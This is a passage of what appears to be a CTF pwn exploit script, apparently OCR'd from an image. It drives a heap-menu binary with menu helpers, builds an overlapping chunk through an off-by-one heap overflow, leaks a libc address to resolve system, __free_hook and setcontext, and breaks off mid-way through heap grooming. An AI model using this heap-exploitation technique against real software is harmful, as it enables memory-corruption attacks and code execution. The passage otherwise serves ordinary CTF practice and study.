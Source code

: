 	def free(index):
		ru("Choice: \n")
		sl('3')
		ru("Index: ")
		sl(str(index))
	
	def show(index):
		ru("Choice: \n")
		sl('4')
		ru("Index: ")
		sl(str(index))
	
	def edit(index, content):
		ru("Choice: \n")
		sl('2')
		ru("Index: ")
		sl(str(index))
		ru("Content: ")
		s(content)
	
	def pwn():
	 
		add(0x80)#0
		add(0x68)#1
		add(0xf0)#2
		add(0x18)#3
		
		#dbg()
	
		free(0)
		payload = 'a'*0x60 + p64(0x100)
		edit(1, payload)
		
		#dbg()
		
		free(2)
	
		#dbg()
	
		add(0x80)#0
		show(1)
		malloc_hook = u64(ru('\x7f').ljust(8, '\x00')) - 0x58 - 0x10
		libc.address = malloc_hook - libc.sym['__malloc_hook']
		system = libc.sym['system']
		free_hook = libc.sym['__free_hook']
		set_context = libc.symbols['setcontext']
		lg('libc_base',libc.address)
		
		#dbg()
		
		add(0x160)#2
	
		#dbg()
		#---------------布置chunk-------------------------#
		add(0x18)#4
		add(0x508)#5
		add(0x18)#6
		add(0x18)#7
		add(0x508)#8
		add(0x18)#9
		add(0x18)#10
	